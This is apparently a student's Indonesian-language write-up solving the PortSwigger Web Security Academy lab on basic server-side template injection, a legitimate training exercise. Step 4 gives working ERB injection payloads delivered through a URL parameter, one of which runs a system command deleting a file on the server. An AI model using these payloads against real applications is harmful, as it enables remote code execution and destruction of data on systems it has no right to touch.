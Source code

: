 # **3. Basic Server-Side Template Injection**

## **3.1 [Soal]**
Eksploitasi **Server-Side Template Injection (SSTI)** untuk mengeksekusi perintah sistem pada aplikasi PortSwigger Web Security Academy.

## **3.2 [Link resource untuk latihan]**
`https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic`

## **3.3 [Jawaban + Bukti]**
- **Step-by-step yang sudah dicoba:**
  1. Buka lab PortSwigger di browser melalui link di atas.  
  2. Klik **View details** pada produk *Snow Delivered To Your Door*.  
     → Muncul pesan: *"Unfortunately this product is out of stock"*.  
  3. Masukkan payload uji coba untuk memastikan adanya SSTI:  
     ```javascript
     const testPayload = encodeURIComponent('<%= 7*7 %>');
     window.location = `${window.location.origin}${window.location.pathname}?message=${testPayload}`;
     ```
     Hasilnya pesan berubah menjadi **49**, membuktikan bahwa template engine melakukan evaluasi ekspresi (SSTI aktif).  

  4. Selanjutnya, masukkan payload eksploitasi untuk mengeksekusi perintah sistem (menghapus file `morale.txt`):  
     ```javascript
     const exploitPayload = encodeURIComponent('<%= system("rm /home/carlos/morale.txt") %>');
     window.location = `${window.location.origin}${window.location.pathname}?message=${exploitPayload}`;
     ```
     Hasilnya halaman reload, file `/home/carlos/morale.txt` terhapus, dan status lab berubah menjadi **Solved**.  

- **Screenshot terminal/browser:**  
<img width="1920" height="1020" alt="Screenshot 2025-09-10 224810" src="https://github.com/user-attachments/assets/6fce3f91-94af-427d-9dd7-7032880db7fa" />
<img width="1920" height="1020" alt="Screenshot 2025-09-10 224823" src="https://github.com/user-attachments/assets/5d2ac403-9536-465b-9eb8-7a5c8964f68e" />


- **Catatan hasil percobaan:**
  1. **Hasil:** Eksploitasi berhasil.  
  2. **Alasan:** Payload `<%= ... %>` adalah sintaks **ERB (Ruby template)**. Dengan menyisipkan `system("rm /home/carlos/morale.txt")`, aplikasi menjalankan perintah OS di server.  
  3. **Refleksi:** SSTI sangat berbahaya karena input user bisa dievaluasi oleh template engine → berubah menjadi **Remote Code Execution (RCE)**.  
